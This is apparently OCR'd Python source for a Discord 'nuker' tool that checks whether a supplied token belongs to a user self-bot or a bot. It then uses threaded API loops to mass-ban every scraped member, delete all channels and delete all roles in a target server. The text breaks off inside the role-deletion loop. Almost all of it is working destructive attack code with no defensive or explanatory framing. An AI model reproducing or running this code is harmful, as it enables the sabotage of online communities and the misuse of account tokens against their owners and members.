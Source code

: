     accountnuker()
def check_token(token: str) -> str:
    if requests.get("https://discord.com/api/v8/users/@me", headers={"Authorization": token}).status_code == 200:
        return "user"
    else:
        return "bot"
token_type = check_token(stoken)
if token_type == "user":
    headers = {'Authorization': f'{stoken}'}
    client = commands.Bot(command_prefix='!', case_insensitive=False, self_bot=True)
elif token_type == "bot":
    headers = {'Authorization': f'Bot {stoken}'}
    client = commands.Bot(command_prefix='!', case_insensitive=False)
def ban(guild, member):
  while True:
    r = requests.put(f"https://discord.com/api/v8/guilds/{guild}/bans/{member}", headers=headers)
    if 'global' in r.text:
      time.sleep(r.json()['global'])
    else:
      if r.status_code == 200 or r.status_code == 201 or r.status_code == 204:
        break
def banall():
  print()
  guild = input("\u001b[38;5;111mGuild ID: ")
  os.system('cls; clear')
  print("EAR - NUKER - ACTIVATING BAN PROCESS...")
  members = open('Scraped/members.json')
  members1 = open('Scraped/members1.json')
  for member in members:
    threading.Thread(target=ban, args=(guild, member,)).start()
  for member in members1:
    threading.Thread(target=ban, args=(guild, member,)).start()
def delchan(guild, channel):
  while True:
    r = requests.delete(f"https://discord.com/api/v8/channels/{channel}", headers=headers)
    if 'retry_after' in r.text:
      time.sleep(r.json()['global'])
    else:
      if r.status_code == 200 or r.status_code == 201 or r.status_code == 204:
        break
def chandel():
  print()
  guild = input("\u001b[38;5;111mGuild ID: ")
  os.system('cls; clear')
  print("EAR - NUKER - ACTIVATING CHANNEL DELETION PROCESS...")
  channels = open('Scraped/channels.json')
  for channel in channels:
    threading.Thread(target=delchan, args=(guild, channel,)).start()
def delroles(guild, role):
  while True:
    r = requests.delete(f"https://discord.com/api/v8/guilds/{guild}/roles/{role}", headers=headers)
    if 'retry_after' in r.text:
      time.sleep(r.json()['global'])
    else:
      if r.status_code == 200 or r.status_code == 201 or r.status_code == 204:
        break
def roledel():
  print()
  guild = input("\u001b[38;5;111mGuild ID: ")
  os.system('cls; clear')
  print("EAR - NUKER - ACTIVATING ROLE DELETION PROCESS...")
  roles = open('Scraped/roles.json')
  for role in roles: